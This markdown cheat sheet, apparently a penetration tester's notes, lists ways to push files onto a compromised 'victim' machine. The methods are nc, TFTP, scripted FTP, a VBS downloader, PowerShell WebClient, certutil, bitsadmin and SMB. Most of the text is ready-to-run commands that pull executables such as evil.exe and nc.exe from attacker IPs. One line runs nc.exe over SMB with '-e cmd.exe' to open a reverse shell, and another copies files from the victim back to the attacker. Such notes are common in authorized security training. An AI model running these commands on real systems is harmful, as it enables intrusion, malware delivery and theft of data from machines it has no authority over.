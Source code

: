 # Do not forget to allow connection on firewalls !!

## Use nc

- on attacker machine : ```nc -nlvp 4444 < shell.php ```
- on victim machine : ```nc -nv <attacking machine> 4444 > shell.php```

---

## WINDOWS 

### TFTP : ( port 69 )

On some windows machine, there's a tftp client installed by default :
copy your file in /srv/atftp/ (arch linux) 

- ```systemctl start atftpd```

- on the targeted machine : ```
tftp -i 10.11.0.156 GET nc.exe C:/Users/Public/Downloads/nc.exe)```


### FTP : ( port 21 ) 

(file are accessible as anonymous in /srv/ftp/ in arch linux, start the service)

```echo open 10.11.0.156 21 > ftp.txt
echo anonymous>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
```

- Then execute : ```ftp -s:ftp.txt```

If not anonymous, modify anonymous part by :
```
echo USER <user> >> ftp.txt
echo <password> >> ftp.txt
```

### VBS

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```


- ```cscript wget.vbs http://10.11.0.156/evil.exe exploit.exe```


### Powershell :

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```


- ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1```


### debug.exe

Against 32 bit windows operating systems.

There is a 64k byte size limit to the files that can be created by debug.exe

**transfer of nc :**

- Start by using upx to compress it : ```upx -9 nc.exe```

- ```wine exe2bat.exe nc.exe nc.txt```
- copy paste the nc.txt in cmd


### WITHOUT POWERSHELL :


- ```certutil.exe -urlcache -split -f "http://10.11.0.156:8000/nc.exe" c:\Windows\System32\nc.exe```

- ```bitsadmin /transfer job /download /priority high http://10.11.0.156:8000/nc.exe c:\Windows\System32\\nc.exe```

### With powershell :

Both curl, iwr or wget could be alias for Invoke-WebRequest since powershell 5.0, so :

- ```powershell wget “<url>” -outfile “ <youname>”```

- ```curl -O http://ip:port/file```

---


### SMB 

- on attacking machine :
```
smbserver SHARE $(pwd) -smb2support -user user -password password
```
- on victim machine

```
$pass = convertto-securestring 'password' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('user', $pass)

New-PSDrive -Name user -PSProvider Filesystem -Credential $cred -Root \\ip\share
```

- ```net use \\IP\SHARE```
- or ```net use \\IP\SHARE /user user password```


- Viewing available files on the SMB share : ```
dir \\10.10.14.17\SHARE```


- Downloading the nc.exe file to the victim : ```copy \\10.10.14.17\SHARE\nc.exe .```

- With SMB, files can also be uploaded from the victim to the attacker : ```copy nc2.exe \\10.10.14.17\SHARE\nc2.exe```


- Executing nc.exe over SMB on the victim. Note that the executable is not copied to the victim but executed over SMB.
```\\10.10.14.17\SHARE\nc.exe -nv 10.10.14.17 4444 -e cmd.exe``` 

- Rmove the share : ```net use * /delete /y```

### in an old cmd :

- net use /d \\\\ip\\share

- if you have the nc.exe inside, you can use it directly.
